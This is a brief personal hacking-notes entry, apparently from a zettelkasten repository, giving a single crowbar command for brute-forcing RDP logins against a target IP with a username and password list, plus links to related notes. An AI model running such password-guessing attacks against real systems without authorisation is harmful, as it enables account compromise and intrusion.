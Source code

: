 # crowbar brute force RDP
```bash
crowbar -b rdp -n 1 -s $IP/32 -u username -C ./passwords
```

` zet/20221003150779/README.md `

# Related

- [20221014185900](/zet/20221014185900/README.md) kb file named kb/hacking/commands/crowbar.md
- [20221003151201](/zet/20221003151201/README.md) RDP
- [20221003150780](/zet/20221003150780/README.md) crowbar
- [20221003150778](/zet/20221003150778/README.md) crowbar brute force RDP active directory domain joined
- ~/kb/hacking/commands/crowbar.md

Tags:

    #command #hacking #crowbar #command
